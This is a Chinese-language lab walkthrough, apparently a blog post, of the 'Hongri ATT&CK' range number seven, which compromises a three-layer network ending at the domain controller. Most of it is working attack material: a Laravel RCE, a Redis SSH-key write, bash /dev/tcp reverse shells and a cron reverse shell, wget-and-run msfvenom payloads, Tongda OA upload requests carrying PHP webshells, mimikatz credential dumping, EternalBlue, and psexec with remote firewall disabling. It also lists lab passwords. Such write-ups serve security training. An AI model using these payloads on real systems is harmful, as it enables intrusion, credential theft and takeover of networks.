

# 红日ATT&CK系列靶场（七）

- 网络环境:一共拥有三层网络环境。



- 服务配置：

DMZ区的 Ubuntu 需要启动nginx服务：

```
redis-server /etc/redis.conf
/usr/sbin/nginx -c /etc/nginx/nginx.conf
iptables -F
```

第二层网络的 Ubuntu需要启动docker容器：

```
sudo service docker start
sudo docker start 8e172820ac78
```

第三层网络的 Windows 7 （PC 2）需要启动通达OA：

```
C:\MYOA\bin\AutoConfig.exe
```

- 域用户信息

域用户账户和密码如下：

```
Administrator：Whoami2021
whoami：Whoami2021
bunny：Bunny2021
moretz：Moretz2021
```

Ubuntu 1：

```
web：web2021
```

Ubuntu 2：

```
ubuntu：ubuntu
```

通达OA账户：

```
admin：admin657260
```

# 外网渗透

## Laravel Debug mode RCE（CVE-2021-3129）

先进行端口扫描


6379端口也开启了，但是不知道为什么扫不出来。


开放22，80，81，6379端口。

访问81端口发现是Laravel框架且版本是Laravel v8.29.0 (PHP v7.4.14)


恰好这个框架爆了一个远程代码执行漏洞，我这里直接使用工具进行Getshell

> 工具链接：https://github.com/SecPros-Team/laravel-CVE-2021-3129-EXP


简单进行了信息收集

```
hostname
cat /etc/hosts
cat /proc/1/cgroup
```


尝试反弹shell到Kali上再进行提权，Kali进行监听，但是最后没有反应。


尝试了MSF的tcp、http均不行，故判断为不出网

## Redis未授权

既然反弹不了shell，只能从其他地方进行入手了，之前进行端口扫描时发现该机器开着6379，**尝试Redis弱口令或未授权访问**，尝试进行连接Redis，连接成功，**存在未授权访问**


尝试写入SSH公钥

```
ssh-keygen -t rsa #生成一对RSA SSH密钥，默认存储在/root/.ssh/id_rsa（私钥）和/root/.ssh/id_rsa.pub（公钥）中(默认情况即一直回车)

(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt #将两个换行符和公钥内容写入foo.txt，换行符用于分隔。

cat foo.txt | redis-cli -h 192.168.111.133 -p 6379 -x set hello #将foo.txt中的内容通过管道传输给Redis命令，设置键hello的值为foo.txt的内容。
```


```
config set dir /root/.ssh    # 将Redis数据库的持久化目录设置为/root/.ssh，这意味着后续的数据文件会存储在这个目录中
config set dbfilename authorized_keys    # 将Redis数据库的持久化文件名设置为authorized_keys。这意味着数据会被保存为/root/.ssh/authorized_keys文件
save    # 立即将当前数据库的内容保存到指定的文件（在这个例子中为/root/.ssh/authorized_keys），以便于数据持久化
ssh 192.168.111.133 # 连接
```


成功进行连接，简单进行了信息收集，发现存在52段


因为之前的shell反弹不了，所以看一下nginx的配置文件是不是做了反向代理

> proxy_pass http://192.168.52.20:8000;：将对根路径的请求代理转发到另一个服务器，地址为http://192.168.52.20:8000。这样，Nginx将充当反向代理，将请求转发到该地址并返回响应。
> 
> proxy_pass的存在意义在于实现请求的转发和负载均衡。具体作用包括：
> 
> 反向代理：Nginx接收来自客户端的请求，然后将这些请求转发到指定的后端服务器（如http://192.168.52.20:8000），隐藏后端服务器的真实地址。
> 
> 负载均衡：可以将请求分发到多台后端服务器，以平衡负载，提高服务的可用性和响应速度。

<br/>


81端口的反弹不到kali，只能麻烦一点使用ubuntu做为跳板机进行操作.

首先进行反弹shell到ubuntu:192.168.52.10

```
bash -c 'exec bash -i &>/dev/tcp/192.168.52.10/4444 <&1'
```


当前权限为www，先进行提权

## 环境变量提权

发现是docker环境。


不知道是不是因为docker环境的原因，尝试内核提权失败。既然如此，就尝试搜索寻找带有SUID的文件

```
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
```


发现home目录下的那个shell有点可疑，先执行看看会发生什么


通过执行发现该脚本执行了`ps`命令且并未使用绝对路径，源码在demo.c中可以清楚看到。

那么我们尝试更改$PATH来执行我们的恶意程序，从而获得目标主机的高权限shell

```
cd /tmp
echo "/bin/bash" > ps  //创建一个名为ps的文件，并在其中写入/bin/bash，这个文件会成为一个可执行脚本。
chmod 777 ps
echo $PATH     //输出当前的环境变量PATH，显示系统查找可执行文件的路径。
export PATH=/tmp:$PATH //将/tmp添加到环境变量中，并且先加载执行/tmp里的程序
cd /home/jobs
./shell
```


成功获得root权限，把shell再反弹到ubuntu(web 1)中

```
bash -c 'exec bash -i &>/dev/tcp/192.168.52.10/5555 <&1'
```


前面说到这是个docker环境，实际IP为192.168.52.20，所以我们要进行docker逃逸

## Docker特权模式逃逸

### 原理

使用特权模式启动容器，可以获取大量设备文件访问权限。因为当管理员执行`docker run —privileged`时，Docker容器将被允许访问主机上的所有设备，并可以执行`mount`命令进行挂载

### 漏洞利用

```
fdisk -l #查看磁盘文件
ls /dev #查看设备文件
```


有三个磁盘文件和N个设备文件，我们将/dev/sda1挂载到自己创建的文件夹

```
mkdir hello
mount /dev/sda1 /hello
ls /hello
```


挂载成功，写入计划任务

```
echo '* * * * * bash -i >& /dev/tcp/192.168.52.10/2333 0>&1' >> /hello/var/spool/cron/root
```


没有反应0.0

换另一个思路，翻一下看看可不可以访问root目录或查看home有没有用户


可以看到有ubuntu这个用户

接下来就可以将我们自己生成的ssh秘钥写入到/hello/home/ubuntu/.ssh目录中的authorized_keys文件中，写入成功之后就可以使用该密钥进行登陆该机器

```
ssh-keygen -f hello
chmod 600 hello #赋予权限
```


```
cp -avx /hello/home/ubuntu/.ssh/id_rsa.pub /hello/home/ubuntu/.ssh/authorized_keys #-avx是将权限也一起复制

echo > /hello/home/ubuntu/.ssh/authorized_keys #清空authorized_keys文件

echo '生成的.pub文件的内容' > /hello/home/ubuntu/.ssh/authorized_keys #将ssh秘钥写入authorized_keys文件

cat /hello/home/ubuntu/.ssh/authorized_keys #查看是否写入成功

ssh -i hello ubuntu@192.168.52.20
```


成功登录，查看了一下网络，发现还存在93网段


## CVE-2021-3493

> linux kernel一般指Linux内核。Linux是一种开源电脑操作系统内核。它是一个用C语言写成，符合POSIX标准的类Unix操作系统。
linux内核中的overlayfs文件系统中没有正确地验证用户名称空间和底层文件系统中文件功能的设置。由于非特权用户名称空间和Ubuntu内核中允许非特权覆盖的补丁的组合，攻击者可以使用它来获得更高的特权。

### 漏洞影响版本

Ubuntu 20.10
Ubuntu 20.04 LTS
Ubuntu 18.04 LTS
Ubuntu 16.04 LTS
Ubuntu 14.04 ESM


因为登录的是ubuntu用户，刚好今年ubuntu机器出了一个内核提权漏洞，该机器在影响范围内,先进行提权.

进入到tmp目录

```
vim exploit.c #将下载的exploit.c的内容粘贴到该文件中
gcc exploit.c -o exploit #编译
chmod +x exploit
./exploit
```


Exp：https://github.com/briskets/CVE-2021-3493/blob/main/exploit.c

成功提权，那么接下来该将这两台机器上线MSF继续进攻内网了

# 内网渗透

至此已经拿下两台linux主机 . ubuntu1 和 ubuntu2 整理一下

```
ubuntu1
    ip：192.168.111.133  192.168.52.10

ubuntu2
    ip：192.168.52.20 192.168.93.10
```

先进行上线通过Redis拿到的机器(Web1)

```
msfconsole 
use exploit/multi/script/web_delivery           
set target 7    # 选择目标系统            
set payload linux/x64/meterpreter/reverse_tcp            
set lhost 192.168.111.128           
set lport 2345   
set SRVPORT 8081
run
```


添加路由(这一步非常关键)

```
run get_local_subnets  //这个命令用来识别并获取本地主机上可用的子网信息,它会列出当前系统的网络接口中所有可访问的子网
run autoroute -s 192.168.52.0 -n 255.255.255.0  //允许Metasploit在渗透测试中自动添加新的路由，指定可以通过目标主机访问的网络
run autoroute -p   //显示当前Metasploit中的路由表，列出所有可用的路由信息
```


**因为在Web 1这台机器上通过尝试该机器安装有python3.6.9，那么我们可以将木马上传到Web 1，通过python3开启一个http服务，使用Web 2进行下载并运行我们的木马**


首先MSF生成木马，通过MSF上传到Web 1中

```
msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=2020 -f elf -o 20.elf
sessions 1
upload /home/tom/20.elf /tmp/20.elf
```


```
root@ubuntu:/tmp# python3 -m http.server
------------------------------------------------------------------------------------------------------------
bash-4.3# wget http://192.168.52.10:8000/20.elf;chmod +x 20.elf;./20.elf
-------------------------------------------------------------------------------------------------------------
msf6 exploit(multi/script/web_delivery) > use multi/handler
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/bind_tcp
payload => linux/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/bind_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  2020             yes       The listen port
   RHOST  192.168.52.20    no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > exploit
```


成功上线192.168.52.20(web2).

目前拿下了web1和web2


## 路由与socks5代理 

我们获取了两个sessions，因为kali无法与52段的主机进行通信，所以我们需要在web1上增加一条去往192.168.52.0的路由


路由转发只能将msfconsole带进内网，而要想将攻击机上的其他攻击程序也带进内网还需要搭建socks代理。我们使用earthworm搭建socks5反向代理服务。

在攻击机上执行如下：

```
./ew_for_linux64 -s rcsocks -l 2080 -e 5678
```


在DMZ区域的Web1上传ew_for_linux64，通过执行如下命令实现：

```
sessions 1
upload /home/tom/ew_for_linux64 /tmp/ew_for_linux64
nohup ./ew_for_linux64 -s rssocks -d 192.168.111.128 -e 5678
```


配置成功：


然后配置proxychains，将socks5服务器指向127.0.0.1:2080，之后便可以使用proxychains将我们攻击机上的程序代理进第二层网络（192.168.52.1/24）了。

```
vim /etc/proxychains4.conf   
socks5 127.0.0.1 2080
```


接着，我们使用metasploit的 auxiliary/scanner/discovery/udp_probe 模块来扫描第二层网络中的主机存活：

```
use auxiliary/scanner/discovery/udp_probe
set rhosts 192.168.52.1-254            //注意必须是254，不能是255
set threads 5
run
```

> 192.168.52.255 是广播地址，不是单个主机的 IP，广播地址用于将数据包发送给子网中的所有设备，通常不用于单独的通信。一些工具（包括 Metasploit）在扫描时会尝试对整个 IP 范围发送探测请求，而对广播地址发送的请求通常无效或被阻止。


 我们发现了30主机，接下来我们使用proxychains4 进一步对30主机的端口进行扫描

```
proxychains4  -f /etc/proxychains4.conf nmap -Pn -sT -sV -F -O 192.168.52.30
```

> 使用`proxychains4   nmap -Pn -sT -sV -F -O 192.168.52.30`会失败，并且显示使用的是1080端口，所以在这里我们指定配置文件就不会报错了。


我们发现了8080端口上有一个nginx的http服务，在攻击机的浏览器上设置好代理后，成功访问：


在kali上 访问192.168.52.30:8080


是个通达OA，经测试其版本为通达OA V11.3，该版本存在任意用户登录、文件包含和文件上传等多个漏洞。

接下来我们下载一个代理插件，配置好代理，好让我们方便使用burpsuite进行抓包，


由于其他端口的占用，这里使用8089.

burpsuite要配置两个地方：


配好后打开代理，进行抓包，发现抓包成功，直接抓包，修改，未授权上传图片马 

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 192.168.52.30:8080
Content-Length: 658
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Connection: close

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"

2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"

123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```


文件包含：

```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 192.168.52.30:8080
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
Content-Length: 71
Content-Type: application/x-www-form-urlencoded

json={"url":"/general/../../attach/im/2409/731126929.jpg"}&cmd=whoami
```


```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 192.168.52.30:8080
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
Content-Length: 72
Content-Type: application/x-www-form-urlencoded

json={"url":"/general/../../attach/im/2409/1329251649.jpg"}&cmd=whoami
```


写入木马


```
<?php fputs(fopen('../../shell.php','w'),'<?php @eval($_POST["test"])?>');?>
```

蚁剑连接


直接上传msf的shell进行连接

```
msfvenom -p windows/meterpreter/bind_tcp LPORT=4444 -f exe > msf.exe
use exploit/multi/handler 
set payload windows/meterpreter/bind_tcp
set rhosts 192.168.52.30
set lport 4444
```


上线pc1


至此，第一层内网中的主机全部统一到了kali中


此时，绘制出网络拓扑图如下：


## 内网信息收集

拿下第二层网络中的Windows 7服务器后，接下来我们对目标内网环境进行信息收集，对目标网络有一个初步的了解:

```
ipconfig /all   # 查看本机ip，所在域
systeminfo      # 列出系统信息
route print     # 打印路由信息
net view        # 查看局域网内其他主机名
arp -a          # 查看arp缓存
whoami
net start       # 查看开启了哪些服务
net share       # 查看开启了哪些共享

net config workstation   # 查看计算机名、全名、用户名、系统版本、工作站、域、登录域
net user                 # 查看本机用户列表
net user /domain         # 查看域用户
net localgroup administrators   # 查看本地管理员组（通常会有域用户）
net view /domain         # 查看有几个域
net user 用户名 /domain   # 获取指定域用户的信息
net group /domain        # 查看域里面的工作组，查看把用户分了多少组（只能在域控上操作）
net group 组名 /domain    # 查看域中某工作组
net group "domain admins" /domain  # 查看域管理员的名字
net group "domain computers" /domain  # 查看域中的其他主机名
net group "domain controllers" /domain  # 查看域控制器（可能有多台）
```

可知目标网络环境存在一个名为whoamianony.org的域环境，域控制器主机名为DC.whoamianony.org，IP为192.168.93.30，域管理员为Administrator。

## 抓取域用户密码

接着，我们使用meterpreter上的kiwi模块尝试抓取域用户及域管理员的密码：

> 在 Meterpreter 中，migrate 命令的主要作用是将当前的 Meterpreter 会话从一个进程迁移到另一个进程中。这个功能对于保持隐蔽性、稳定性和持久性有重要意义。具体作用包括：
> 
> 保持会话稳定性：一些目标进程可能会在短时间内退出或崩溃，迁移到更稳定的进程（例如系统服务进程）能够确保 Meterpreter 会话不会中断，从而维持远程控制。
> 
> 提升权限：如果 Meterpreter 会话是在一个权限较低的进程中启动的，迁移到一个高权限的进程（例如系统级进程）可以获得更高的权限，便于执行更高级的操作。
> 
> 隐蔽性：将会话迁移到一个常驻且合法的系统进程（例如 explorer.exe 或 svchost.exe）可以帮助避免被发现或终止，因为这些进程通常不会引起系统管理员的注意。
> 
> 避免进程终止：某些恶意软件扫描或系统监控工具可能会标记和终止一些非标准的或可疑的进程，迁移到系统关键进程后，攻击者可以避免被轻易检测到。

```
load kiwi
migrate n     // (n指的是进程号)
kiwi_cmd privilege::debug
kiwi_cmd sekurlsa::logonPasswords
```


成功抓取到域用户bunny和域管理员administrator的凭证：

```
bunny：Bunny2021
administrator：Whoami2021
```

## 第三层网络渗透

现在第二层网络已经渗透完了，我们继续入侵第三层网络（192.168.93.1/24）。在第二层网络Windows服务器的meterpreter中添加一个通往192.168.93.1/24网段的路由：

```
msf6 exploit(multi/handler) > route add 192.168.93.0 255.255.255.0 4                                                                                                                               
[*] Route added                                                                                                                                                                                    
msf6 exploit(multi/handler) > route print                                                                                                                                                          
                                                                                                                                                                                                   
IPv4 Active Routing Table                                                                                                                                                                          
=========================                                                                                                                                                                          
                                                                                                                                                                                                   
   Subnet             Netmask            Gateway                                                                                                                                                   
   ------             -------            -------                                                                                                                                                   
   192.168.52.0       255.255.255.0      Session 1                                                                                                                                                 
   192.168.93.0       255.255.255.0      Session 4                                                                                                                                                 

[*] There are currently no IPv6 routes defined.
```

**路由转发只能将msfconsole带进内网，而要想将攻击机上的其他攻击程序也带进内网还需要搭建socks代理。我们使用earthworm搭建一个二级socks5代理服务。**

首先攻击机上执行如下命令添加一个转接隧道，监听1090端口，并将1090端口收到的代理请求发送给1235端口，执行命令：

```
./ew_for_linux64 -s lcx_listen -l 1090 -e 1235
```


然后在第二层网络的Windows服务器上传ew_for_Win.exe，并利用ssocksd方式启动999端口的正向socks代理，执行命令：

```
msf6 exploit(multi/handler) > sessions 4
meterpreter > upload /home/tom/ew_for_Win.exe C:\\Windows\\ew_for_Win.exe
ew_for_Win.exe -s ssocksd -l 999
```


最后，在DMZ区域的Ubuntu 18上传ew_for_linux64并利用lcx_slave方式，将攻击机的1235端口与第二层网络Windows 7的999端口连接起来，执行命令：

```
./ew_for_linux64 -s lcx_slave -d 192.168.111.128 -e 1235 -f 192.168.52.30 -g 999
```


然后配置proxychains：


此时，就可以设置proxychains等代理工具，通过访问攻击机的1090端口来使用架设在第二层网络Windows主机上的socks代理服务，来进入第三层网络了。

在第二层网络Windows主机上执行ping命令扫描第三层网络中

接着，我们使用metasploit的` auxiliary/scanner/smb/smb_version` 模块（可用来探测Windows主机存活）来扫描第三层网络中的主机存活：

```
use auxiliary/scanner/smb/smb_version
set rhosts 192.168.93.1-255
set threads 5
run
```


如上图，发现第三层网络中还有两个Windows主机，分别为DC（192.168.93.30）和PC2（192.168.93.40），使用nmap进一步扫描PC2主机信息：

```
proxychains4 nmap -Pn -sT -sV 192.168.52.40
```

没发现什么有用的服务，我们直接打一个“永恒之蓝”试试：

```
setg Proxies socks5:127.0.0.1:1090
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.93.40
set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.93.40
set lport 4444
exploit
```

第四台靶机拿下.

此时，绘制出网络拓扑图如下：


# 进攻域控

现在就剩下域控制器DC了。既然都抓取到域管理员的密码了，那我们直接psexec登陆就得了：

```
use exploit/windows/smb/psexec
set rhosts 192.168.93.30
set SMBUser administrator
set SMBPass Whoami2021
set payload windows/meterpreter/bind_tcp
set rhost 192.168.93.30
run
```


失败了，应该是开了防火墙的原因。

没关系，我们已经有了域控的密码了，就可以控制第二层网络的Windows 7远程关闭域控的防火墙了。首先控制第二层网络的Windows 7与域控建立ipc连接：

```
net use \\192.168.93.30\ipc$ "Whoami2021" /user:"Administrator"
```


然后执行如下命令，使用sc远程在域制器（192.168.93.30）上创建服务关闭防火墙：

```
sc \\192.168.93.30 create unablefirewall binpath= "netsh advfirewall set allprofiles state off"

sc \\192.168.93.30 start unablefirewall
```

再次尝试执行 exploit/windows/smb/psexec 模块即可成功登录：

成功拿下域控：

